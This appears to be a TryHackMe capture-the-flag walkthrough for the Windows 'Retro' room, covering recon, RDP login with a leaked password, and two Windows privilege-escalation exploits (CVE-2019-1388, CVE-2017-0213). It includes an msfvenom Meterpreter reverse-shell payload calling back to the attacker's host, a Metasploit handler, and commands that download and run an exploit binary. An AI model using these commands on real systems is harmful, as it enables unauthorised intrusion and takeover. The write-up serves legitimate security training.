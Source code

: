 # Retro

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

## Intro

| Room Info           | ![](.gitbook/assets/retro.jpeg)           |
| :------------------ | ----------------------------------------- |
| 🔗 Name              | [Retro](https://tryhackme.com/room/retro) |
| 🎯 Target IP         | `10.10.181.110`                           |
| 📈 Difficulty level  | 🟢Easy                                     |
| 💲 Subscription type | Free                                      |
| 🪟 OS                | Windows                                   |

---

## Recon

```bash
mkdir retro
cd retro
nmap 10.10.181.110
    80/tcp   open  http
    3389/tcp open  ms-wbt-server

nmap -sV -sC -Pn -oA retro 10.10.181.110
```

```bash
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-05-13T11:52:02+00:00; +2s from scanner time.
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2023-05-12T11:48:35
|_Not valid after:  2023-11-11T11:48:35
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2023-05-13T11:51:57+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
```

Perform Web Server directories enumeration.

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.181.110/FUZZ

[Status: 301, Size: 150, Words: 9, Lines: 2, Duration: 281ms]
    * FUZZ: retro
```

The enumeration found a folder named **`/retro`**.

Use a browser to navigate to:

- `http://10.10.181.110/retro/index.php/2019/12/09/ready-player-one/`

> 📌 Wade user left a comment with his password

![](.gitbook/assets/image-20230513140001737.png)

Use the credentials to login to the target via the open RDP Port `3389`

- `Wade`:`parzival`

> I suggest to set the `Remmina` RDP resolution to a higher one, **`e.g`**
>
> - Open Remmina, `+` to create a Quick RDP Connect, select the resolution and `Save as Default`
>
> ![](.gitbook/assets/image-20230513142438083.png)

```bash
remmina -c rdp://wade@10.10.181.110

# It will open with the default set up resolution
```

-  🚩 Open the **`user.txt`** file on Wade's user desktop to get the first flag.

```bash
3b99f***************************

```

---

## Exploitation

Open `Internet Explorer` to initialize it.

Open `Google Chrome` and set it as **Default web browser** in Windows.

![](.gitbook/assets/image-20230513142712637.png)

The bookmarked link refers to the [CVE-2019-1388](https://nvd.nist.gov/vuln/detail/CVE-2019-1388) - Windows Certificate Dialog Elevation of Privilege Vulnerability.

Check the Recycle Bin and restore the `hhupd` file.

![](.gitbook/assets/image-20230513140747457.png)

Exploit the privesc vulnerability present in the Windows Certificate Dialog Box and run `cmd` with **Administrator** privileges.

![](.gitbook/assets/image-20230513141237572.png)

![](.gitbook/assets/image-20230513141306088.png)

- Even after the initialization of both the IE and Chrome browsers, there might not be any option for selecting the browser in the opened window.

![](.gitbook/assets/image-20230513152711279.png)

### Meterpreter

Generate a manual payload to get a Metasploit Meterpreter session on the target.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.18.65.48 LPORT=4444 -f exe -o unprivileged-payload.exe
```

```bash
# Start a webserver in the same payload directory
python -m http.server 80
```

Download the payload on the target browser from this link

- `http://10.18.65.48/unprivileged-payload.exe`

Open Metasploit and set up a handler to listen on the `4444` port

```bash
msfconsole -q

setg RHOSTS 10.10.181.110
setg RHOST 10.10.181.110
use exploit/multi/handler
# Same as the generated payload
set payload windows/x64/meterpreter/reverse_tcp 
set LHOST 10.18.65.48 
set LPORT 4444
run
```

Run the `unprivileged-payload.exe` file on the target machine

![Wade Privileges Meterpreter](.gitbook/assets/image-20230513160120206.png)

Get `systeminfo` from the target and save the output to a file.

```bash
shell
systeminfo
```

![](.gitbook/assets/image-20230513170606987.png)

---

## Privilege Escalation

Exploit the [CVE-2017-0213 - Windows COM Elevation of Privilege Vulnerability](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213)

- Download the `CVE-2017-0213_x64.zip` package, unzip it and upload the **`CVE-2017-0213_x86.exe`** to the target.

```bash
wget https://raw.githubusercontent.com/SecWiki/windows-kernel-exploits/2b944b52ee30f8833a21f0805d2627ca1f15383a/CVE-2017-0213/CVE-2017-0213_x86.zip
```

```bash
# In the Meterpreter session
upload CVE-2017-0213_x86.exe
```

Run the `CVE-2017-0213_x86.exe` file from the Meterpreter session or using the RDP connection on the target.

```bash
shell
.\CVE-2017-0213_x86.exe
```

- Check the `CMD` as Administrator session on the target.

![Elevated CMD Session](.gitbook/assets/image-20230513171909558.png)

- 🚩 Read the `root.txt` file

```bash
cd c:\Users\Administrator\Desktop
type root.txt
7958b***************************
```

![](.gitbook/assets/2024-10-20_22-28-24_764.png)

- Remember that there can be other attack vectors to exploit target's vulnerabilities.

------

